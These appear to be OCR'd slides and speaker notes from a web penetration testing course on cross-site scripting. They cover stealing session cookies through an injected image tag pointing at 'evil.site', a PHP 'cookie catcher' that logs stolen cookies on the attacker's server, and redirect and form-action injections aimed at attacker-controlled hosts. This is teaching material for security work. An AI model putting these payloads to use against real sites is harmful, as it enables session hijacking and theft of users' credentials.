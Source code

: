 The code in this slide is designed to steal cookie information from a client and send it to an attacker's web site.

You will notice that the script includes an image tag, which is written to the screen within the targeted application. The image tag sets the source of the image to an evil site, and appends the value of the cookie to the URL. If the value of the cookie was a session ID- for example, 42- then the URL would become: 
http://evil.site/42 

At that point, the user's browser automatically attempts to load the image. The image will fail to load (it could appear as a red X, but if the pixel size is set to 1x1, the user won't see it at all). This request will appear in the evil.site logs. The evil.site administrator will find a "404" error message, which contains the value of the cookie as part of the requested address.  Then, all the evil site administrator needs to do is parse the site logs to get the cookies. 

The upshot is that this script causes a user's data to be transmitted to the evil site via HTTP requests. 




---



Cookie Catcher


- We can also include a cookie catcher script on our server
- This code logs the cookies in a simpler format
	- We don't have to parse the web server logs
**<?php**
**$cookies = $_SERVER['REQUEST_URI'];**
**$output = "Received=".$cookies."\n";**
**$fh = fopen("/tmp/cookiedump", "a+");**
**$contents = fwrite($fh, $output);**
**fclose($fh);**
**?>**

Note:

56




The above code, written by Tom Liston, would run on a server controlled by the attacker.  It reads the cookie value from the request and logs them to /tmp/cookiedump.

This code could be updated to log further information or even make a web request using the cookies stolen.  The web request would go to the site in the referer header. ?

We used this type of code during the XSS exercise on day 3.

---



Redirecting a User


- We can also inject code to redirect a user
**<script language="javascript">  
window.location.href = "http://professionallyevil.com" ;   
</script> **
- We can also change the form action to have it submit to us
**document.forms[1].action="http://www.PEWAPT.org/"**
